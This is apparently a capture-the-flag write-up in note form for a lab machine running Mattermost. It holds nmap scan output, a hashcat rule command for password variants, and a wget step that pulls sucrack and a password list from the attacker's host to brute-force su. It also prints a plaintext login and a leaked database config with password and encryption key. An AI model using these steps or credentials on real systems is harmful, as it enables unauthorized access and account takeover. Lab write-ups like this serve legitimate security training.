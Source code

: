 https://www.youtube.com/watch?v=gbs43E71mFM

## Main points

- Using **hashcat** to create a list of variants of a known password: `hashcat --stdout <filename> -r /usr/share/hashcat/rules/best64.rule`. https://hashcat.net/wiki/doku.php?id=rule_based_attack
- Using **sucrack** after uploading to server with `wget <mymachine>/sucrack && wget <mymachine>/pwdlist`. sucrack is a multithreaded Linux/UNIX tool for brute-force cracking local user accounts via su. This tool comes in handy as final instance on a system where you have not too many privileges but are in the wheel group. Many su implementations require a pseudo terminal to be attached in order to take the password from the user. This is why you couldn't just use a simple shell script and pipe the password from STDIN. This tool, written in C, is highly efficient and can attempt multiple logins at the same time. Please be advised that using this tool will take a lot of the CPU performance and fill up the logs quite quickly.
  
## Enumeration

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c40fa859b01acac0ebc0c19518aee27 (RSA)
|   256 5a0cc03b9b76552e6ec4f4b95d761709 (ECDSA)
|_  256 b79df7489da2f27630fd42d3353a808c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
PORT     STATE SERVICE VERSION                                                                                                                                                                 
8065/tcp open  unknown                                                                                                                                                                         
| fingerprint-strings:                                                                                                                                                                         
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:                                                                                                                      
|     HTTP/1.1 400 Bad Request                                                                                                                                                                 
|     Content-Type: text/plain; charset=utf-8                                                                                                                                                  
|     Connection: close                                                                                                                                                                        
|     Request                                                                                                                                                                                  
|   GetRequest:                                                                                                                                                                                
|     HTTP/1.0 200 OK                                                                                                                                                                          
|     Accept-Ranges: bytes                                                                                                                                                                     
|     Cache-Control: no-cache, max-age=31556926, public                                                                                                                                        
|     Content-Length: 3108                                                                                                                                                                     
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com                                                                                                    
|     Content-Type: text/html; charset=utf-8                                                                                                                                                   
|     Last-Modified: Tue, 18 Jul 2023 05:18:58 GMT                                                                                                                                             
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 1jtt31szpbbh9xnuwskyjf69dy
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Tue, 18 Jul 2023 21:14:06 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Tue, 18 Jul 2023 21:14:07 GMT
|_    Content-Length: 0

```

```
[*] Service 22/tcp is ssh running OpenSSH version 7.9p1 Debian 10+deb10u2
[*] Service 80/tcp is http running nginx version 1.14.2
```

Credentials to the server are maildeliverer:Youve_G0t_Mail!
PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.

Search for Mattermost files on the server reveled a config.json file with DB password:

```
"SqlSettings": {                                                                                                                                                                           
        "DriverName": "mysql",                                                                 
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],                                                              
        "DataSourceSearchReplicas": [],                                                        
        "MaxIdleConns": 20,                                                                    
        "ConnMaxLifetimeMilliseconds": 3600000,                                                
        "MaxOpenConns": 300,                                                                   
        "Trace": false,                                                                        
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",                                
        "QueryTimeout": 30,                                                                    
        "DisableDatabaseSearch": false                                                         
    },
```